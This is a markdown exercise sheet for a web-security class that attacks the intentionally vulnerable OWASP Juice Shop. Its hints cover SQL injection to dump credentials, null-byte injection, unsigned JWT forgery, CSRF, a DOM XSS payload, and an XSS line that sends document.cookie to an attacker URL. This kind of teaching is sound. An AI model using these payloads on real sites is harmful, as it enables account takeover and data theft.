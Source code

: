 # Exercises

Make sure you understand the feature you are analysing for vulnerabilities.
Before attempting any exploits, walk the "happy path" and investigate if the feature works as expected.


## Zero Stars

Give a devestating zero-start feedback to the store. You find the feedback form at `/#/contact`.

<details>
  <summary>❓ Hint 1</summary>
Can you enable the button with the developer tools?

</details>

<details>
  <summary>❓ Hint 2</summary>
There is another way: Use ZAP to find the request and replay it with a 0 value.
    
</details>


## Payback Time

Place an order that makes you rich.

<details>
  <summary>❓ Hint 1</summary>
When you order an item, you pay money. When you sell an item, you are being paid. Basic economics.
</details>

<details>
  <summary>❓ Hint 2</summary>
Have you tried ordering a negative amount of items?
</details>


## Confidential Document

Access a confidential document.
Reading the about us (`/#/about`) might nudge you in the right direction.


<details>
  <summary>❓ Hint 1</summary>

Robots are certainly disallowed to access confidential files.
How would you tell google to hide a directory?
</details>


## View Basket

You need some inspiration on what to buy. View another user's shopping basket.

<details>
  <summary>❓ Hint 1</summary>

Observe the HTTP traffic using ZAP when shopping. Is there a request with an interesting parameter that you could change in your favor?
</details>


## Forged Review

Privacy is important. Post a product review as another user or edit any user's existing review.

<details>
  <summary>❓ Hint 1</summary>

Observe the HTTP traffic using ZAP while submitting a review for the "Apple Juice". Can you alter any interesting parameters when sending a request to `/rest/products/1/reviews`?
</details>


## Login Admin

Sometimes it is boring to be a normal user. Login as the administrator (admin@juice-sh.op) instead.

<details>
  <summary>❓ Hint 1</summary>

User credentials are generally stored in a database, can you perform an injection that results in a positive query reply?
</details>

<details>
  <summary>❓ Hint 2</summary>

Don't forget to comment out the trash after the injected commands.
</details>


## User Credentials

Data is power. Steal all user credentials by abusing the search functionality.

<details>
  <summary>❓ Hint 0 (the endpoint)</summary>

The vulnerable (legacy) search endpoint is located under the following path `/rest/products/search?q=<SEARCH QUERY>`.
</details>

<details>
  <summary>❓ Hint 1</summary>

The endpoint is vulnerable to SQL injections.
When exploiting a SQL injection, make sure that you know how to properly close the query.
Start by crafting a simple query that doesn't result in an error (e.g. does `test';--` work, or are there for instance any open brackets left?)
</details>

<details>
  <summary>❓ Hint 2</summary>

Exploit the SQLi by crafting an `UNION SELECT` query to join the data from another table to the results.
</details>

<details>
  <summary>❓ Hint 3</summary>

Use the `sqlite_schema` table to extract the relevant table names.
</details>

<details>
  <summary>❓ Hint 4</summary>

Use the `PRAGMA_TABLE_INFO('TABLE NAME GOES HERE')` table to extract the relevant column names.
</details>


## NoSQL Manipulation

Look at the endpoint `PATCH /rest/products/reviews`.
Update multiple product reviews at the same time.

```javascript
module.exports = function productReviews () {
  return (req, res, next) => {
    const user = security.authenticatedUsers.from(req)
    db.reviews.update(
      { _id: req.body.id },
      { $set: { message: req.body.message } },
      { multi: true }
    ).then(
      result => {
        res.json(result)
      }, err => {
        res.status(500).json(err)
      })
  }
}
```

<details>
  <summary>❓ Hint 1</summary>

Read the documentation of
<a href="https://www.mongodb.com/docs/manual/reference/method/db.collection.update/">`db.collection.update` documentation</a>
and the <a href="https://www.mongodb.com/docs/manual/reference/operator/query/">query operators documentation</a>.

Which query allows you to change multiple reviews at the same time?
</details>


## Null-Byte Injection

Download `/ftp/package.json.bak`.
Note node.js handles null-bytes differently than the underlying library which is written in C.

<details>
  <summary>❓ Hint 1</summary>
In C strings are terminated by a NULL byte.
Thus the string "hello.txt■.md" (with ■ representing the NULL byte) will be seen as "hello.txt■.md" in node.js, but as "hello.txt" in the low level library that opens the file.
How can this be exploited, when the access verification happens in node.js?
</details>

<details>
  <summary>❓ Hint 2</summary>
A url encoded null byte is represented as "%00", however, make sure you properly encode it when submitting the request.
</details>


## Federated Authentication

Find a website with a social login and use ZAP to observe what happens when you sign in.  
Example: https://oag.azurewebsites.net


## JSON Web Token
Analyze a JWT from the shop with https://jwt-attacker.onrender.com

- What claims are in the token?
- How is it signed?


## Unsigned JWT

Forge an essentially unsigned JWT that impersonates the (non-existing) user jwtn3d@juice-sh.op.

<details>
  <summary>❓ Hint 1</summary>
Exploit a weird option, that is available when signing tokens with JWT.
</details>

<details>
  <summary>❓ Hint 2</summary>
The weird option is the none algorithm ;)
</details>


## DOM XSS

Perform a DOM XSS attack with the following payload: `<iframe src="javascript:alert(`xss`)">`.

<details>
  <summary>❓ Hint 1</summary>
Did you try searching?
</details>


## Blind Persistent XSS

Perform a (blind) persistent XSS attack bypassing a client-side security mechanism.

- The admin can see a list of all users on `/#/administration`
- Admin login: admin@juice-sh.op / admin123

Can you extract the cookies and send it to you (https://requestbin.net/ might be helpful)?

<details>
  <summary>❓ Hint 1</summary>
What information is displayed to the admin? When can you set it?
</details>

<details>
  <summary>❓ Hint 2</summary>
When registering a new user the endpoint `/api/Users` is contacted. This looks interesting...
</details>

<details>
  <summary>❓ Hint 3 (Cookie exfiltration)</summary>

Have you tried the following?

```
<img src=x onerror="this.src='YOUR.URL?'+document.cookie; this.removeAttribute('onerror');">
```
</details>


## Content Security Policy

Search for a websites with a CSP. How does the CSP of your favorite bank look like?


## CSRF

Change the name of a user by performing Cross-Site Request Forgery from another origin.

- Make your own attacker web-site that changes a logged-in user's Juice Shop username when she/he visits your site.
- Note: You need to use Firefox, because it does not treat cookies as `same-site=lax` per default.
- Can you do it with a CORS request and an autosubmitting `<form>`?
- Use a local file or `https://htmledit.squarefree.com` to simulate a different website.

<details>
  <summary>❓ Hint 1</summary>
`POST /profile`
</details>


## Frontend Typosquatting

[Inform the shop](http://localhost:3000/#/contact) about a typosquatting imposter that dug itself deep into the frontend (Mention the exact name of the culprit in the contact form).

<details>
  <summary>❓ Hint 1</summary>

Inspect the package.json.bak from the <a href="#null-byte-injection">Null-Byte Injection exercise</a>.
</details>


## Vulnerable Library

[Inform the shop](http://localhost:3000/#/contact) about a vulnerable library it is using (Mention the exact library name and version in your comment).

<details>
  <summary>❓ Hint 1</summary>

Inspect the package.json.bak from the <a href="#null-byte-injection">Null-Byte Injection exercise</a>.
</details>

  <details>
  <summary>❓ Hint 2</summary>
Use Snyk or any other dependency scanner to analyze the Juice Shop's dependencies.

- Are there any outdated packages?
- How severe are the issues?
</details>




## OWASP ZAP Scanning

Use OWASP ZAP to perform an automated dynamic test of your Juice Shop.

`docker run --net=host -t owasp/zap2docker-stable zap-baseline.py -t http://localhost:3000`

- What kind of vulnerabilities does it find?
- Do you think it is useful?
- If you are interested, try the full scan.
